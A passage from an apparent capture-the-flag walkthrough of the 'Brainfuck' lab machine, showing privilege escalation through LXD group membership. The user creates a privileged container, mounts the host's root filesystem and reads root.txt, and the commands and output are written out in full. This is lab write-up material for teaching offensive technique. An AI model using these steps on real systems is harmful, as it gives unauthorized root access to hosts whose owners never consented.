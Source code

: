 
The following commands get us to root permissions on the alpine container, from which we can cd to /root on the target since we mounted it. 
```
orestis@brainfuck:~$ lxc init myimage ignite -c security.privileged=true
Creating ignite
orestis@brainfuck:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
orestis@brainfuck:~$ lxc start ignite
orestis@brainfuck:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
```

# Proof

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Brainfuck/images/Pasted%20image%2020211112190033.png)

